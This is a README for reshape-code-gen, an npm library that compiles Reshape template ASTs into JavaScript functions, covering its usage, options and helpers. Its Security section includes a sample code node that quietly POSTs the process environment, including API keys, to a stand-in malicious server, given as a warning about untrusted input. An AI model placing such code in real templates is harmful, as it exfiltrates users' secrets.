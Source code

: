 # Reshape Code Generator

[![npm](https://img.shields.io/npm/v/reshape-code-gen.svg?style=flat-square)](https://npmjs.com/package/reshape-code-gen)
[![tests](https://img.shields.io/travis/reshape/code-gen.svg?style=flat-square)](https://travis-ci.org/reshape/code-gen?branch=master)
[![dependencies](https://img.shields.io/david/reshape/code-gen.svg?style=flat-square)](https://david-dm.org/reshape/code-gen)
[![coverage](https://img.shields.io/coveralls/reshape/code-gen.svg?style=flat-square)](https://coveralls.io/r/reshape/code-gen?branch=master)

Convert a Reshape AST into a Javascript function

> **Note:** This project is in early development, and versioning is a little different. [Read this](http://markup.im/#q4_cRZ1Q) for more details.

### Installation

`npm install reshape-code-gen -S`

> **Note:** This project is compatible with node v6+ only

### Usage

Usage is very straightforward. Just require the library and pass it a reshape AST, and it will return a function as a string. When you call the function, it will return the resulting html as a string.

```js
const generate = require('reshape-code-gen')

const tpl = generate([
  { type: 'string', content: 'hello ', line: 1, col: 1 },
  { type: 'code', value: 'planet', line: 1, col: 7 }
], {/* options */})

tpl({ planet: 'world' }) // 'hello world'
```

### Options

| Name | Description | Default |
| ---- | ----------- | ------- |
| **selfClosing** | style for handling self-closing tags. can be `slash` (`<br />`), `tag` (`<br></br>`), or `close` (`<br>`) | `close` |
| **runtimeName** | custom name for the runtime object | `__runtime` |
| **returnString** | gives back a string instead of a function | `false` |
| **scopedLocals** | use `locals.foo` instead of `foo` in code nodes. this will speed up compile time, but be less pretty | `false`

### Code Block Helpers

Within the `content` of a `code` node, there are two special helpers that can be used:

#### `__nodes`

A helper that can be used inside of a `code` node's content in order to inject an already-generated AST. For example:

```js
{
  type: 'code',
  content: 'foo === "bar" ? __nodes[0] : __nodes[1]',
  nodes: [
    { type: 'text', content: 'truth' },
    { type: 'text', content: 'lies' }
  ]
}
```

The `__nodes` helper is an array, and you can use the `nodes` property to hold on to values. Values can be a single node or a full tree, they will be evaluated, and the result will be substituted in where the `__nodes` marker is.

####  `__runtime`

This helper can be used to access any functions on the runtime object. It will work under the same name whether the user has changed the runtime name via the options or not. For example:

```js
{
  type: 'code',
  content: '__runtime.escape(foo)'
}
```

### Security

Please note that this library produces a function as its output that could be influenced by user input and will most likely run inside your application environment. While the default output is evaluated in a [sandbox](https://nodejs.org/api/vm.html), when the function is executed it will have full access to any part of your code's environment, as all functions do.

Chances are that any `code` nodes in your templates are your own code, probably for evaluating a local variable. However, if any type of outside user input is accepted and evaluated as a `code` node, or if a malicious plugin is being used, you have a serious security vulnerability on your hands. This is especially the case when using the `outputString` option and executing templates client-side. Keep in mind that it is also possible for plugins to contain malicious code, so be sure that you trust and have evaluated the source of any plugins you are using.

Here's an example of how a `code` node could be used to compromise your secure information:

```js
{
  type: 'code',
  content: `
    const http = require(\'http\')
    const req = http.request({
      hostname: 'http://malicious-server.com',
      method: 'POST',
      headers: { 'Content-Type': 'application/json' }
    })
    req.write(JSON.stringify(process.env))
    req.end()
    foo
  `
}
```

In this example, the code node will return `foo` from your local variables as if all is well, but in the background will send the contents of your environment, which often includes private API keys and such, to a malicious server. This example would work in node, but it would also be simple to add a version that would work in the browser, or even both, with an environment check. And this is a very tame example as well, arbitrarily injected code could easily be used to get or delete your database's contents, make financial transactions, conduct actions as a logged-in user, etc.

While a situation like this is unlikely to happen, and all core plugins protect against it as much as possible, it is still something to keep in mind. _Especially_ if there is any user input inserted into your templates that could be potentially evaluated as code and not as a string.

### License & Contributing

- Details on the license [can be found here](LICENSE.md)
- Details on running tests and contributing [can be found here](contributing.md)
